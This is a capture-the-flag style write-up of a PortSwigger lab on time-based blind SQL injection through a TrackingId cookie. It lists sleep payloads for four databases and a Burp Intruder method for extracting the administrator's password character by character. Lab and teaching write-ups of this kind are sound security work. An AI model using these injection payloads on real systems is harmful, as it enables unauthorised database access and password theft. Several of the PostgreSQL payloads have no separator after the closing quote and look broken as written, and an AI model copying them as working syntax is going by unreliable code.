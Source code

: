 ## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

![poc_admin_user.png](../images/admin_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

![poc_final.png](../images/poc_final.png)

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.


<img src="../images/poc_final.png"  alt="poc_final.png"  width="500"  height="600">

